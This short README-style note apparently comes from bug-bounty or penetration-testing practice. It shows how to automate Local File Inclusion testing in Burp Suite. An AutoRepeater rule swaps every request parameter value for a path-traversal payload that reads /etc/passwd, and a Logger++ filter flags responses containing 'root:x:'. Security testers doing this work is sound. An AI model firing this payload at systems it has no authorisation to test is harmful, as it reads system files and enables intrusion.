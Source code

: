 ## Local File Inclusion Automation in Burp Suite 
#### <em>Extentions: AutoRepeater and Logger++</em>


## AutoRepeater Replacement Configuration
 
2) Replace LFI Payload:

    ```
    Type: Request Param Value
    Match: .*
    Replace: ..//..//..//..//..//..//..//..//..//..//..//etc//passwd
    Witch: Replace All
    Regex Match: Enabled
    ```
    
## Logger++ Filter For AutoRepeater Local File Inclusion

    Response.Body CONTAINS "root:x:"
    

<h4><em>Happy Hunting ;) </em><h4>
